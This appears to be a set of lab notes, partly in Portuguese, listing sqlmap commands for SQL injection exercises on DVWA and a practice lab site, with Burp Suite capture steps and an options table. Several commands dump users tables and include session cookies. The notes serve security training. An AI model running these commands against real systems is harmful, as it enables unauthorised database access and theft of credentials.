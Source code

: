 # Exemplos
```shell
sqlmap -r dvwa_request.txt --batch --dbs --cookie="security=low; PHPSESSID=tvag3q21u5eii5v6hvuv4b6ohb"
```

```shell
sqlmap -r dvwa_request.txt -D dvwa -T users --dump
```

# Exemplos 2

## Explorar a página de Login
```shell
sqlmap -r request.raw --dbs
```

```shell
sqlmap -u "https://lzwdgttvhlknjbblqadq.tiagocardoso.xyz/lab/sql-injection/post-login/" --batch --dbs --dump
```

### Find the Passwords
```shell
sqlmap -u "https://lzwdgttvhlknjbblqadq.tiagocardoso.xyz/lab/sql-injection/find-password/?search=teste" --risk=3 --level=5 --batch
```

```shell
sqlmap -u "https://lzwdgttvhlknjbblqadq.tiagocardoso.xyz/lab/sql-injection/find-password/?search=teste" --dbs --batch
```
```shell
sqlmap -u "https://lzwdgttvhlknjbblqadq.tiagocardoso.xyz/lab/sql-injection/find-password/?search=teste" -D sql_injection --tables --batch
```

```shell
sqlmap -u "https://lzwdgttvhlknjbblqadq.tiagocardoso.xyz/lab/sql-injection/find-password/?search=teste" -D sql_injection -T users --dump --batch
```

### Boolean-Based Blind SQL Injection
```shell
sqlmap -u "https://lzwdgttvhlknjbblqadq.tiagocardoso.xyz/lab/sql-injection/post-blind-boolean/" --method=POST --data="search=iphone11" --cookie="PHPSESSID=lr82fhkublhch289n629r30k4c" --batch --level=5 --risk=3
```

### Error-Based Blind SQL Injection

```shell
sqlmap -u "https://lzwdgttvhlknjbblqadq.tiagocardoso.xyz/lab/sql-injection/get-blind-error/index.php?img=1" --cookie="PHPSESSID=lr82fhkublhch289n629r30k4c" --batch --dbs
```

```shell
sqlmap -u "https://lzwdgttvhlknjbblqadq.tiagocardoso.xyz/lab/sql-injection/get-blind-error/index.php?img=1" -D sql_injection --cookie="PHPSESSID=lr82fhkublhch289n629r30k4c" --batch --tables
```

```shell
sqlmap -u "https://lzwdgttvhlknjbblqadq.tiagocardoso.xyz/lab/sql-injection/get-blind-error/index.php?img=1" -D sql_injection -T users --cookie="PHPSESSID=lr82fhkublhch289n629r30k4c" --batch --dump
```


### Time-Based Blind SQL Injection
```shell
sqlmap -u "https://lzwdgttvhlknjbblqadq.tiagocardoso.xyz/lab/sql-injection/post-blind-time/" --method=POST --data="email=teste%40gmail.com" --cookie="PHPSESSID=lr82fhkublhch289n629r30k4c" --batch --level=5 --risk=3
```




Abra o Burp Suite e configure o navegador para usar o proxy do Burp (normalmente, localhost:8080). Vá até a página de “SQL Injection” no DVWA. Insira, por exemplo, o valor 1 no campo de ID e envie. No Burp Suite, na aba “Proxy” > “HTTP history”, localize a requisição referente ao envio do ID. Clique com o botão direito e selecione “Copy to file” ou “Copy as curl command”.
# Sqlmap Commands
To show the basic help menu, simply type `sqlmap -h` in the terminal.

## **Basic** commands:  

|   |   |
|---|---|
|**Options**|**Description**|
|-u URL, --url=URL|Target URL (e.g. "http://www.site.com/vuln.php?id=1")|
|--data=DATA|Data string to be sent through POST (e.g. "id=1")|
|--random-agent|Use randomly selected HTTP User-Agent header value|
|-p TESTPARAMETER|Testable parameter(s)|
|--level=LEVEL|Level of tests to perform (1-5, default 1)|
|--risk=RISK|Risk of tests to perform (1-3, default 1)|

